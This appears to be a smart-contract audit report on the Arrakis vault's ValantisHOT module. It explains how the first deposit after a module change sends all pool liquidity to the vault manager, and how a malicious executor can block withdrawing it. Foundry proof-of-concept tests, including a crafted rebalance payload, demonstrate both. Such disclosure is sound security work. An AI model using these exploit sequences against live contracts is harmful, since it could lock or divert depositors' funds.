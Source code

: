 Tricky Alabaster Panda

high

# Incorrect handling of first deposit for new modules leads to all liquidity sent to vault manager

## Summary

See detail.

## Vulnerability Detail

The following logic is implemented in `ValantisHOTModulePublic.deposit()` :

```solidity
(uint256 _amt0, uint256 _amt1) = pool.getReserves();

if (!notFirstDeposit) {
  if (_amt0 > 0 || _amt1 > 0) {
        
      // #region send dust on pool to manager.
      address manager = metaVault.manager();
      alm.withdrawLiquidity(_amt0, _amt1, manager, 0, 0);
      // #endregion send dust on pool to manager.
      
  }
  _amt0 = _init0;
  _amt1 = _init1;
  notFirstDeposit = true;
}
```

This code assumes that the reserves of the pool (`_amt0`, `_amt1`) will be dust amounts.

**The case that the protocol did not consider:**

This module could be a new module that was set via `ArrakisMetaVault.setModule()` .

When `setModule()` is called, it withdraws all the liquidity through the old module:

```solidity
_module.withdraw(module_, BASE); 
// BASE means withdraw 100% of the liquidity
// the new module (module_) is the receiver of the liquidity
```

(`_module` *is the old module, and `module_`  is the newly set one)*

Then, all the funds are directly transferred to the new module, and `initializePosition` is called to deposit it into the pool.

This issue is that the `notFirstDeposit` boolean is still false, indicating that the first deposit has not yet occured. 

Then when the first deposit occurs in the module, the ‘dust removal’ logic shown earlier is triggered in the the new module. 

However all the liquidity from the old module has been deposited via the new one. 

This means that `_amt0`  and `_amt1`  will not be dust, as they represent the entire liquidity of the pool. 

Then, as shown in the PoC, the ‘dust removal’ logic withdraws the entire liquidity of the pool, and sends it to the manager of the meta vault (`ArrakisStandardManager`).

So far, while this is already a severe error, it’s not all bad since the owner of `ArrakisStandardManager`  is trusted, and they can withdraw the funds via `withdrawManagerBalance()`  and return the funds so that users don’t lose any funds. 

**However, it gets even worse,** because a malicious executor can DOS the `withdrawManagerBalance()`  function for that specific vault. There is a PoC for the DOS in the ‘Proof of Concept’ section of this report, but here is the summary:

- Malicious executor calls `ArrakisStandardManager.rebalance()` , with malicious payload
- It ends up calling `pool.setPoolManager(address(0))`
- Now `pool.claimPoolManagerFees()`  will revert since the `ValantisHOTModule` is no longer the pool manager
- Hence, `withdrawManagerBalance()` will revert since it requires `pool.claimPoolManagerFees()` to be called via the module.
- Note:  the malicious executor would have to first execute a swap on the new pool to make the managerFee variable non-zero so that the `expectedMinReturn`  passed in to within `ValantisHOTModule.swap()` of `1` can be met. (see PoC to understand)

## Impact

100% of the pool liquidity is lost after the first deposit occurs in a new module. It is sent to the `ArrakisStandardManager`

The value of everyone’s shares in the vault goes to effectively zero.

Then due to the DOS by the malicious executor, the funds cannot be withdrawn from the manager by calling `withdrawManagerBalance(vault)`. 

The only way would be to deploy an entirely new vault with the same `token0` and `token1` , and then calling `withdrawManagerBalance(newVault)`  to collect the tokens from the `ArrakisStandardManager`  contract.

## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L53-L69

## Proof of Concept

Make new files in `arrakis-modular/test/integration` to run these PoCs.

<details><summary> Foundry Test </summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";


import {ArrakisMetaVaultPublic} from
    "../../src/ArrakisMetaVaultPublic.sol";
    import {ArrakisMetaVault} from
    "../../src/abstracts/ArrakisMetaVault.sol";
import {TimeLock} from
    "../../src/TimeLock.sol";
import {ArrakisStandardManager} from
    "../../src/ArrakisStandardManager.sol";
import {IModuleRegistry} from
    "../../src/interfaces/IModuleRegistry.sol";
import {ValantisModulePublic} from
    "../../src/modules/ValantisHOTModulePublic.sol";

import {TEN_PERCENT} from "../../src/constants/CArrakis.sol";

import {ValantisModule} from "../../src/abstracts/ValantisHOTModule.sol";
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";

import {IOwnable} from "../../src/interfaces/IOwnable.sol";

import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";

// Mocks
import {OracleWrapper} from "./mocks/OracleWrapper.sol";
import {SovereignPoolMock} from "./mocks/SovereignPoolMock.sol";
import {SovereignALMMock} from "./mocks/SovereignALMMock.sol";

//Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

contract PoC_FundsSentToArrakisManager_Incorrectly is ValantisIntegrationPublicTest {
  
    address vaultManager;
    address minter;

    address public constant OWNER_EOA = 0x529a65684a6923958ab6b7DF7B909a8D5e1580ae;

    function test_fundsSentTo_ArrakisManager_incorrectly() public {
        
        // #region Vault Init
        minter = makeAddr("minter");
        vaultManager = IArrakisMetaVault(vault).manager();

        deal(address(token0), minter, init0); // 2000e6 (0: USDC)
        deal(address(token1), minter, init1); // 1e18   (1: WETH)
        vm.label(address(token0), "token0");
        vm.label(address(token1), "token1");

        address oldModule = address(IArrakisMetaVault(vault).module());
        
        SovereignPoolMock newPool = new SovereignPoolMock();
        newPool.setToken0AndToken1(address(token0), address(token1));

        //User mints from meta vault, using old module
        vm.startPrank(minter);
        token0.approve(oldModule, init0);
        token1.approve(oldModule, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, minter);
        vm.stopPrank();
        // #endregion Vault Init

        console.log(
            "\n [Before]\n Old Pool's Balance:\n token0: %e\n token1: %e", 
            token0.balanceOf(address(pool)), 
            token1.balanceOf(address(pool))
        );
        console.log(
            "ArrakisStandardManager's Before:\n token0: %e\n token1: %e", 
            token0.balanceOf(address(vaultManager)), 
            token1.balanceOf(address(vaultManager))
        );

        TimeLock timelock = TimeLock(payable(IOwnable(vault).owner()));
        
        // Initialisation Data for the newly whitelisted module
        bytes[] memory initData = new bytes[](1);
        initData[0] = abi.encodeWithSelector(
            ValantisModule.initialize.selector,
            address(newPool), 1e18, 1e18, 1e5, vault
        );

        bytes memory whitelistModulesPayload = abi.encodeWithSelector(
            ArrakisMetaVault.whitelistModules.selector,
            IModuleRegistry(moduleRegistry).beacons(), // use the existing module implementation, no changes needed
            initData
        );

        //Whitelist the new module
        vm.startPrank(OWNER_EOA);
        timelock.schedule(vault, 0, whitelistModulesPayload, bytes32(0), bytes32(uint256(0xff)), 2 days);
        vm.warp(block.timestamp + 2 days);
        timelock.execute(vault, 0, whitelistModulesPayload, bytes32(0), bytes32(uint256(0xff)));
        vm.stopPrank();

        bytes memory almPayload = abi.encodeWithSelector(
            ValantisModule.setALMAndManagerFees.selector,
            address(new SovereignALMMock(address(token0), address(token1), address(newPool))),
            oracle
        );

        address[] memory modules = ArrakisMetaVaultPublic(vault).whitelistedModules();

        // set ALM for the new module
        //note: A mock ALM is used for simplicity of setup, but it will still work with a real ALM
        vm.startPrank(OWNER_EOA);
        timelock.schedule(modules[1], 0, almPayload, bytes32(0), bytes32(uint256(0xff)), 2 days);
        vm.warp(block.timestamp + 2 days);
        timelock.execute(modules[1], 0, almPayload, bytes32(0), bytes32(uint256(0xff)));

        vm.stopPrank();

        // A call will be made to the new module to initialize the LP position
        bytes[] memory payloads = new bytes[](1);
        
        // initializePosition (Deposits liquidity into ALM)
        payloads[0] = abi.encodeWithSelector(
            ValantisModule.initializePosition.selector
        );

        // Set the module and pass in payload
        vm.startPrank(executor);
        ArrakisStandardManager(payable(manager)).setModule(vault, modules[1], payloads);

        console.log(
            "\n [After Setting New Module and Initializing Position]\n New Pool's Balance:\n token0: %e\n token1: %e", 
            token0.balanceOf(address(newPool)), 
            token1.balanceOf(address(newPool))
        );
        console.log(
            "ArrakisStandardManager's Balance After:\n token0: %e\n token1: %e", 
            token0.balanceOf(vaultManager), 
            token1.balanceOf(vaultManager)
        );

        assertEq(token0.balanceOf(address(newPool)), 2e9);
        assertEq(token1.balanceOf(address(newPool)), 1e18);

        deal(address(token0), minter, init0); // 2000e6 (0: USDC)
        deal(address(token1), minter, init1); // 1e18   (1: WETH)
        address newModule = modules[1];
        
        //Now, a minter mints shares from the vault, as the first depositor
        vm.startPrank(minter);
        token0.approve(newModule, 1e3);
        token1.approve(newModule, 1e3);

        IArrakisMetaVaultPublic(vault).mint(1e3, minter);
        vm.stopPrank();

        // Assert that the entire liquidity has been sent to the ArrakisStandardManager
        assertEq(token0.balanceOf(vaultManager), 2e9);
        assertEq(token1.balanceOf(vaultManager), 1e18);

        console.log(
            "\n [After First Deposit]\n New Pool's Balance:\n token0: %e\n token1: %e", 
            token0.balanceOf(address(newPool)), 
            token1.balanceOf(address(newPool))
        );
        console.log(
            "ArrakisStandardManager's Balance After:\n token0: %e\n token1: %e", 
            token0.balanceOf(vaultManager), 
            token1.balanceOf(vaultManager)
        );

    }
}
```
</details>

> Note: the DOS has a separate PoC since it does not use any mocks, while the first PoC uses 2 mocks for simplicity of setup

<details><summary> Fund collection DOS PoC </summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;


// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";

// Valantis Imports
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";
import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";
import {HOT} from "@valantis-hot/contracts/HOT.sol";

// General Imports
import {IOwnable} from "../../src/interfaces/IOwnable.sol";


// Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";


contract PoC_ChangePoolManager_ToZeroAddress is ValantisIntegrationPublicTest {

    address attacker;
    address rec;
    
    function test_old_changePoolManager_toZeroAddress() public {
        rec = makeAddr("rec");
        attacker = makeAddr("attacker");

        address m = address(IArrakisMetaVault(vault).module());
        assertEq(pool.poolManager(), m);

        deal(address(token0), rec, init0); // 2000e6 (0: USDC)
        deal(address(token1), rec, init1); // 1e18   (1: WETH)

        //@e user mints from meta vault
        vm.startPrank(rec);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, rec);
        vm.stopPrank();


        uint256 FEE_AMOUNT_0 = 1 wei;
        uint256 FEE_AMOUNT_1 = 1 wei;
        //@e Simulating 1 wei of fees in the `SovereignPool`
        vm.store(address(pool), bytes32(uint(5)), bytes32(FEE_AMOUNT_0));
        vm.store(address(pool), bytes32(uint(6)), bytes32(FEE_AMOUNT_1));

        // Sending the fee to the pool
        deal(address(token0), address(pool), token0.balanceOf(address(pool)) + FEE_AMOUNT_0);
        deal(address(token1), address(pool), token1.balanceOf(address(pool)) + FEE_AMOUNT_1);

        


        bool zeroForOne = false;
        uint256 amountIn = 1; // Using small values since we are not actually swapping anything
        uint256 expectedMinReturn = 1;

        //uint256 lowestRatio = FullMath.mulDiv(IOracleWrapper(oracle).getPrice1(), 1e6 - IValantisHOTModule(m).maxSlippage(), 1e6);
        //uint256 lowest_expectedMinReturn = 1+ FullMath.mulDiv(lowestRatio, amountIn, 10 ** ERC20(token1).decimals());

        bytes memory payload = abi.encodeWithSelector(
            SovereignPool.setPoolManager.selector, 
            address(0) // new poolmanager
        );

        bytes memory data = abi.encodeWithSelector(
            IValantisHOTModule.swap.selector,
            zeroForOne,
            expectedMinReturn,
            amountIn,
            address(pool),
            0, //note: this 0,0 lets us skip the checks in `HOT::_checkSpotPriceRange` during depositLiquidity
            0,
            payload
        );

        bytes[] memory datas = new bytes[](1);
        datas[0] = data;
        
        (uint256 reserves0Before, uint256 reserves1Before) = pool.getReserves();
        // Perform the attack
        vm.prank(executor);
        IArrakisStandardManager(manager).rebalance(vault, datas);
        (uint256 reserves0After, uint256 reserves1After) = pool.getReserves();

        assertEq(pool.poolManager(), address(0));

        // Assert that fees meant for the manager were re-deposited
        assertEq(reserves0After, reserves0Before + FEE_AMOUNT_0);
        assertEq(reserves1After, reserves1Before + FEE_AMOUNT_1);

        // Assert that the function cannot be called anymore
        vm.startPrank(IOwnable(manager).owner());
        vm.expectRevert();
        IArrakisStandardManager(manager).withdrawManagerBalance(address(vault));

    }
}
```
</details>

## Tool used

Manual Review

## Recommendation

Rework the code, while keeping in mind that the initial balances may not be dust.

